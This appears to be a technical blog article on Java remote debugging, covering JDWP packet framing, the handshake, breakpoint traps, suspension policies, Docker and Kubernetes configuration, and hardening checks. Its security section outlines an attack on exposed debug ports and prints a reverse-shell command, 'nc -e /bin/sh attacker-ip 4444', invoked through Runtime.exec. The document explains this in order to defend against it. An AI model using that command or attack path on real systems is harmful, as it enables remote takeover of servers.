



# Java Remote Debugging: JDWP Architecture, Bytecode Traps, and Container Security

Daily learning · March 2026

*By Srinivasan Ragothaman ([@rsrini7](https://github.com/rsrini7))*

> Deep-dive into the Java Debug Wire Protocol (JDWP) and Java Platform Debugger Architecture (JPDA)—explaining socket transports (`dt_socket`), 11-byte binary packet framing, bytecode breakpoint substitution (`0xCA`), thread safepoint suspension, containerized Kubernetes tunneling, and the critical Remote Code Execution (RCE) vulnerabilities of unauthenticated debug ports.

---

## 1. Foundations: The 3-Tier JPDA Architecture

Debugging a live Java Virtual Machine across process or network boundaries requires an explicit, standardized debugging architecture. The Java Platform Debugger Architecture (JPDA) decomposes debugging responsibilities across three decoupled layers:

```
┌────────────────────────────────────────────────────────┐
│             Debugger Client (IDE / Tool)               │
│          IntelliJ IDEA / VS Code / Eclipse / jdb       │
└───────────────────────────┬────────────────────────────┘
                            │ JDI (Java Debug Interface)
┌───────────────────────────▼────────────────────────────┐
│                  JDWP Client Layer                     │
└───────────────────────────┬────────────────────────────┘
                            │ JDWP (Java Debug Wire Protocol)
                            │ TCP/IP Socket (`dt_socket`)
┌───────────────────────────▼────────────────────────────┐
│          libjdwp.so / jdwp.dll (Native Agent)          │
└───────────────────────────┬────────────────────────────┘
                            │ JVM TI (JVM Tool Interface)
┌───────────────────────────▼────────────────────────────┐
│             Target JVM (HotSpot Runtime)               │
│               Execution Engine & Threads               │
└────────────────────────────────────────────────────────┘
```

### The Three JPDA Layers

1. **JVM TI (Java Virtual Machine Tool Interface)**:
   A low-level, native C/C++ interface implemented directly inside the HotSpot execution engine. It exposes hooks for thread inspection, memory profiling, class redefinition, bytecode manipulation, and breakpoint traps.
2. **JDWP (Java Debug Wire Protocol)**:
   The binary network protocol that defines the exact byte layout of commands, events, and replies transmitted between the target JVM process and the debugger client. JDWP operates over a pluggable transport (most commonly TCP/IP sockets via `dt_socket`).
3. **JDI (Java Debug Interface)**:
   A 100% pure Java high-level API implemented in client tools (such as IntelliJ IDEA, VS Code Java Debugger, or `jdb`). JDI mirrors the remote target JVM as local Java object hierarchies (`VirtualMachine`, `ReferenceType`, `ThreadReference`, `StackFrame`).

### Core Vocabulary

| Term | Architectural Role | Technical Meaning |
| :--- | :--- | :--- |
| **`libjdwp.so` / `jdwp.dll`** | Native In-Process Agent | Shared library loaded by HotSpot at boot (`-agentlib:jdwp`) that mediates between JVM TI events and network sockets. |
| **`dt_socket`** | Network Transport Layer | Desktop Socket transport. Carries JDWP packets over TCP/IP sockets across network boundaries. |
| **`dt_shmem`** | Shared Memory Transport | Windows-only transport leveraging shared memory segments. High throughput, but restricted to co-located processes on the same host. |
| **`suspend=y` vs `suspend=n`** | Boot Synchronization Flag | Controls whether the JVM halts mutator threads before main class loading (`y`) or boots immediately in the background (`n`). |
| **`server=y` vs `server=n`** | Connection Initiator Mode | `server=y` causes the target JVM to listen for incoming debugger connections; `server=n` forces the JVM to dial out to an external listening debugger. |
| **Safepoint Poll** | Runtime Suspension Barrier | HotSpot execution barrier where mutator threads bring their registers and call stacks to a consistent state for thread inspection. |

---

## 2. Deep Technical Mechanisms: Wire Framing, Traps, and Suspension

### JDWP Binary Packet Specification

JDWP is a stateless, binary wire protocol. All multi-byte integers are transmitted in **network byte order (big-endian)**. Communication consists of two packet types: **Command Packets** and **Reply Packets**. Both share a common 11-byte header layout:

```
JDWP Command Packet (11-Byte Header):
 0                   1                   2                   3
 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                            Length                             | (4 octets: u4)
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                              ID                               | (4 octets: u4)
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|     Flags     |  CommandSet   |    Command    |               | (1+1+1 octets)
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+               +
|                     Data (Variable Length)                    |
```

```
JDWP Reply Packet (11-Byte Header):
 0                   1                   2                   3
 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                            Length                             | (4 octets: u4)
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                              ID                               | (4 octets: u4)
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|     Flags     |          ErrorCode            |               | (1+2 octets)
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+               +
|                     Data (Variable Length)                    |
```

1. **`Length` (4 bytes, `u4`)**: Total packet size in bytes, including the 11-byte header and all following data payloads.
2. **`ID` (4 bytes, `u4`)**: Unique sequence identifier. A reply packet mirrors the exact `ID` of the originating command packet, allowing asynchronous pipelining.
3. **`Flags` (1 byte, `u1`)**: Bit `0x80` indicates a Reply packet. Bit `0x00` indicates a Command packet.
4. **`CommandSet` & `Command` (1 byte each in Command Packets)**:
   - `CommandSet`: Categorizes the JVM subsystem (e.g. `0x01` = VirtualMachine, `0x02` = ReferenceType, `0x09` = ArrayReference, `0x0F` = EventRequest).
   - `Command`: Specific action within that set (e.g. `CommandSet 0x01, Command 0x01` = Version; `CommandSet 0x0F, Command 0x01` = Set Event Request).
5. **`ErrorCode` (2 bytes, `u2` in Reply Packets)**: Replaces `CommandSet`/`Command`. `0x0000` signifies success (`NONE`). Non-zero values indicate failures (e.g., `0x0017` = `INVALID_OBJECT`, `0x0023` = `NOT_IMPLEMENTED`).

### The 14-Byte Handshake

Before any binary JDWP packets can flow, the client debugger and the target JVM establish transport synchronization using an exact 14-byte ASCII handshake:

1. The client debugger connects to the open TCP socket (e.g. `localhost:5005`) and sends the literal 14-byte ASCII string: `JDWP-Handshake`.
2. The target JVM receives the string. If and only if the bytes match identically, the JVM responds with the exact same 14-byte string: `JDWP-Handshake`.
3. If the incoming bytes do not match (e.g. an HTTP `GET` request or TLS Client Hello), the JVM immediately closes the TCP connection.
4. Once exchanged, the connection transitions into packet mode, and both endpoints begin processing JDWP binary headers.

### Bytecode Modification & The `0xCA` Breakpoint Trap

How does the JVM pause execution precisely at a designated line of code without continuously polling line numbers?

```
Original Bytecode Array:
[Offset 0x0014]: 0xB6 (invokevirtual) [Index 0x00] [Index 0x0A]

JVM TI Breakpoint Set Event:
1. Debugger requests breakpoint at method offset 0x0014.
2. HotSpot JVM TI patches bytecode opcode in memory:
[Offset 0x0014]: 0xCA (breakpoint)   [Index 0x00] [Index 0x0A]

Runtime Execution:
3. Interpreter encounters 0xCA opcode.
4. HotSpot redirects to JVM TI breakpoint handler.
5. Thread is suspended; JDWP packet dispatched to IDE.
```

1. **Opcode Replacement**: When an IDE requests a breakpoint, JVM TI replaces the first opcode at that bytecode offset with an internal, undocumented HotSpot opcode: `0xCA` (`breakpoint`).
2. **Interpreter Trap**: When a thread's Program Counter (PC) hits `0xCA`, the bytecode interpreter traps into the JVM TI runtime instead of executing the instruction.
3. **JIT Deoptimization**: If the method has already been compiled to native machine code by the C2 JIT compiler, the JIT-compiled code must undergo **on-stack replacement (OSR) deoptimization**. The JVM unrolls the compiled frame, maps physical CPU registers back into virtual interpreter stack slots, and drops back into the interpreted mode to honor the breakpoint.
4. **Resumption**: When the developer presses "Resume", the JVM TI restores the original opcode (e.g. `0xB6 invokevirtual`), single-steps the instruction, and then re-inserts the `0xCA` trap.

### Thread Suspension Policies & Safepoints

When a breakpoint triggers, the debugger controls thread liveness through the `suspendPolicy` byte:

- **`SUSPEND_ALL` (`0x02`)**:
  Forces every thread in the target JVM into a **Safepoint**. The garbage collector, timer threads, HTTP dispatchers, and worker pools are frozen.
  - *Risk*: Heartbeat threads (Kubernetes liveness probes, Kafka consumer heartbeats, Redis leases) freeze. The orchestrator may classify the pod as dead and abruptly terminate the container.
- **`SUSPEND_EVENT_THREAD` (`0x01`)**:
  Freezes only the single thread that encountered the breakpoint. All other worker threads, daemon threads, and network pollers continue executing.
  - *Advantage*: Health check endpoints (`/actuator/health`) continue responding, preventing Kubernetes restarts while inspecting variables.
  - *Gotcha*: If the paused thread holds a lock or database row lock, other threads attempting to acquire the same lock will subsequently block, causing cascading stalls.

---

## 3. Architectural Visuals: JPDA Framing, Handshake, & Kubernetes Tunneling

The architectural diagram below models the complete remote debugging subsystem: Panel 1 illustrates the 3-tier JPDA stack and the 11-byte packet header; Panel 2 details the 14-byte wire handshake and bytecode replacement trap; Panel 3 demonstrates containerized Kubernetes port forwarding and isolates the unauthenticated RCE attack surface.



### JDWP Breakpoint Lifecycle Sequence

The sequence diagram below traces the end-to-end network interaction between IntelliJ IDEA and a remote HotSpot JVM during a breakpoint encounter:



---

## 4. Production Implementations & Code Recipes

### Modern JVM Launch Configurations (Java 17, 21, and 25)

The modern syntax uses `-agentlib:jdwp` rather than legacy `-Xrunjdwp` or `-Xdebug` flags:

```bash
# Production-safe local attach: Bind strictly to loopback (127.0.0.1)
java -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=127.0.0.1:5005 \
     -jar target/enterprise-service.jar
```

```bash
# Debugging startup failures / static initialization crashes:
# JVM will block and pause until the debugger connects
java -agentlib:jdwp=transport=dt_socket,server=y,suspend=y,address=127.0.0.1:5005 \
     -jar target/enterprise-service.jar
```

> [!NOTE]
> Since Java 9, omitting the host component (e.g. `address=5005`) binds exclusively to the loopback interface `127.0.0.1`. To bind across all container interfaces, you must explicitly declare `address=*:5005` or `address=0.0.0.0:5005`.

### Build Tool Configurations

#### Spring Boot with Maven
Pass JVM arguments through `spring-boot-maven-plugin`:

```bash
mvn spring-boot:run \
    -Dspring-boot.run.jvmArguments="-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=127.0.0.1:5005"
```

#### Gradle (`build.gradle.kts`)
Enable debugging on the standard `bootRun` or `test` tasks:

```kotlin
tasks.bootRun {
    jvmArgs = listOf(
        "-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=127.0.0.1:5005"
    )
}
```

Or pass via command line flag:
```bash
./gradlew bootRun --debug-jvm
```

### Docker & Containerized Workflows

In a containerized environment, the target JVM runs inside a dedicated network namespace. If the container binds JDWP to `127.0.0.1`, host port-forwarding cannot reach it. The container must bind to `*:5005` inside the container network namespace, but the Docker port mapping must bind **only to the host loopback**:

```dockerfile
# Multi-stage production container
FROM eclipse-temurin:21-jre-alpine
WORKDIR /app
COPY target/application.jar app.jar

# Expose HTTP application port and JDWP debug port
EXPOSE 8080 5005

# Production ENTRYPOINT allowing dynamic JAVA_OPTS injection
ENTRYPOINT ["sh", "-c", "exec java $JAVA_OPTS -jar app.jar"]
```

#### Safe `docker-compose.yml`

```yaml
version: '3.8'
services:
  backend-service:
    build: .
    environment:
      # Bind to * inside container namespace
      JAVA_OPTS: "-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:5005"
    ports:
      - "8080:8080"
      # CRITICAL: Bind to 127.0.0.1 on the host, NEVER 0.0.0.0
      - "127.0.0.1:5005:5005"
```

### Kubernetes Secure Tunneling

In production Kubernetes clusters, **never create a Kubernetes `Service` or `Ingress` that exposes port 5005**. Doing so grants instantaneous Remote Code Execution to anyone scanning the VPC or public internet.

Instead, bind JDWP inside the pod container, and establish an encrypted, RBAC-governed local tunnel using `kubectl`:

```bash
# Step 1: Identify the running pod
kubectl get pods -n production -l app=order-service

# Step 2: Establish an encrypted, authenticated TLS tunnel from localhost to pod
kubectl port-forward pod/order-service-7d4bc8f9b-x9z2p 5005:5005 -n production

# Step 3: Attach IDE (IntelliJ IDEA)
# Host: localhost
# Port: 5005
```

---

## 5. Impact, Real-World Edge Cases & Gotchas

### Critical Security Vulnerability: JDWP Remote Code Execution (RCE)

> [!CAUTION]
> **JDWP possesses ZERO authentication, ZERO authorization, and ZERO encryption.**
> Any client that can establish a TCP connection to a JDWP port can command the JVM to load arbitrary classes, inspect private variables, modify memory, or invoke `java.lang.Runtime.getRuntime().exec()` to execute arbitrary shell commands with the privileges of the JVM process.

#### The JDWP RCE Attack Path
1. Attacker detects open TCP port 5005 via `nmap -sV -p 5005 <ip>`.
2. Attacker establishes TCP socket and transmits the 14-byte `JDWP-Handshake`.
3. Attacker uses JDWP `ClassType.InvokeMethod` (`CommandSet 0x03, Cmd 0x03`) to invoke:
   ```java
   java.lang.Runtime.getRuntime().exec("nc -e /bin/sh attacker-ip 4444");
   ```
4. Target JVM spawns an interactive reverse root shell.

**Mandatory Security Safeguard**: Ensure your CI/CD pipelines and infrastructure linters reject Dockerfiles, Kubernetes manifests, and Helm charts that expose port 5005 publicly.

### Common Claims vs. Technical Realities

| Common Claim | Technical Reality | Empirical Mechanism |
| :--- | :--- | :--- |
| **"Leaving JDWP enabled with `suspend=n` has zero performance impact if no debugger is attached."** | **False.** Enabling `-agentlib:jdwp` disables several aggressive C2 JIT compiler optimizations. | JIT escape analysis and inlining boundaries are restricted because methods must remain deoptimizable. While CPU overhead is low (~2–5%), JIT compilation thresholds and peak throughput are measurably altered. |
| **"Hitting a breakpoint only pauses the thread I'm debugging."** | **False (by default in many IDEs).** Most IDEs default to `SUSPEND_ALL`. | If `suspendPolicy` is `SUSPEND_ALL`, all application threads stop at the next safepoint. Database connection pools time out, message queue consumers fail liveness checks, and orchestrators restart the pod. |
| **"I can debug static initializers by connecting quickly after boot."** | **False.** The JVM executes static initializers (`<clinit>`) before network sockets accept connections. | Debugging static blocks or application context startup requires `suspend=y`. The JVM suspends before initializing classes, waiting for the IDE to set breakpoints and dispatch the resume command. |
| **"`address=5005` in Java 17 binds to all interfaces like Java 8."** | **False.** Java 9+ changed default binding to loopback (`127.0.0.1`). | In Java 9 and later, `address=5005` binds exclusively to `127.0.0.1`. Inside a Docker container, host port mappings fail unless configured as `address=*:5005`. |

---

## 6. Practical Verification & Diagnostic Checklist

Run these diagnostic commands directly on the host or inside the container to verify JDWP port health and security bindings:

```bash
# 1. Verify JDWP socket binding and interface isolation
ss -tulpn | grep 5005
# Safe Output:   LISTEN  127.0.0.1:5005
# Lethal Output: LISTEN  0.0.0.0:5005   (Exposed across all interfaces!)

# 2. Inspect active JVM command-line flags to verify suspend and transport
jcmd <PID> VM.command_line | grep jdwp

# 3. Test JDWP Handshake responsiveness via raw TCP
echo -n "JDWP-Handshake" | nc -w 2 127.0.0.1 5005
# Expected response from valid JDWP agent: JDWP-Handshake

# 4. Check whether thread suspension caused a thread dump
jcmd <PID> Thread.print
```

### Verification Checklist
- [ ] **Interface Isolation**: Debug port is bound strictly to `127.0.0.1` on host instances, or protected by Kubernetes network policies (`NetworkPolicy`) preventing ingress traffic.
- [ ] **Suspend Policy in IDE**: In IntelliJ IDEA / Eclipse, verify that breakpoints are configured to suspend **Thread** rather than **All**.
- [ ] **Heap Dump on OutOfMemory**: Ensure `-XX:+HeapDumpOnOutOfMemoryError` is enabled alongside JDWP to catch memory leaks that debugging sessions cannot replicate.
- [ ] **Timeout Thresholds**: Temporarily increase HTTP gateway timeouts (e.g. Envoy `idle_timeout`, AWS ALB timeouts) and Kubernetes liveness probe `initialDelaySeconds` / `periodSeconds` before initiating an interactive pause.

---

## 7. Timeline and Protocol Evolution

```
1999 ── JPDA introduced in Java 1.3 (using -Xdebug -Xrunjdwp and -Djava.compiler=NONE)
2004 ── Java 5.0 introduces modern native JVM TI (JSR 163), replacing JVMDI and JVMPI
2006 ── Java 6 standardizes -agentlib:jdwp syntax, deprecating -Xrunjdwp
2014 ── High-profile internet-wide attacks exploit unauthenticated JDWP ports for RCE
2017 ── Java 9 restricts default JDWP socket binding to localhost (127.0.0.1), requiring *:* for external bind
2021 ── Java 17 LTS establishes unified HotSpot logging and container-aware cgroup v2 support for debug sockets
2026 ── Virtual Threads (Project Loom) in Java 21/25 introduce structured concurrency debug events in JDWP
```

---

## 8. Primary Sources & References

1. [Oracle Corporation: Java Platform Debugger Architecture (JPDA)](https://docs.oracle.com/en/java/javase/21/docs/specs/jpda/jpda.html) — Official specification covering JVM TI, JDWP, and JDI interfaces.
2. [Oracle Corporation: Java Debug Wire Protocol (JDWP) Specification](https://docs.oracle.com/en/java/javase/21/docs/specs/jdwp/jdwp-spec.html) — Canonical wire framing, packet headers, command set definitions, and error codes.
3. [Oracle Corporation: JVM Tool Interface (JVM TI) Reference](https://docs.oracle.com/en/java/javase/21/docs/specs/jvmti.html) — Native HotSpot API for event hooks, bytecode substitution, and thread inspection.
4. [OWASP: Java Debug Wire Protocol Remote Code Execution Advisory](https://owasp.org/www-community/vulnerabilities/Unauthenticated_JDWP_Service) — Detailed vulnerability assessment of unauthenticated `dt_socket` services in enterprise networks.
5. [JEP 328: Flight Recorder & JVM Debug Tooling](https://openjdk.org/jeps/328) — Diagnostic recording specifications operating alongside JVM TI agents.

---

## 9. Supplementary visuals

The diagram below provides a reference view of the remote debugging attachment flow between development workstations and containerized application runtimes.


*Figure 1: High-level architectural mapping of developer tooling attached to JVM runtime containers across transport boundaries.*

---

**Related:**
- [Scaling-Java-Services-To-1-Million-RPS-2026](../Architecture/Scaling-Java-Services-To-1-Million-RPS-2026.md) — Production-safe diagnostics and low-overhead profiling for JVM systems sustaining 1,000,000 RPS.
- [Java-Next-Gen-Programming-Models-Babylon-Panama-Nov-2026](Java-Next-Gen-Programming-Models-Babylon-Panama-Nov-2026.md) — Code reflection and foreign function memory access patterns interacting with JVM TI deoptimization.
- [Java-Plugin-Arch](Java-Plugin-Arch.md) — Inspecting dynamic classloaders, isolated boundaries, and extension hosts via live debug hooks.
- [SpringBoot-4-Migration-Copilot-VSCode](../../AI-ML/Agents/Spring-Boot-4-Migration/SpringBoot-4-Migration-Copilot-VSCode.md) — VS Code and Copilot debugging workflows relying on JDWP attachment for Spring Boot runtimes.
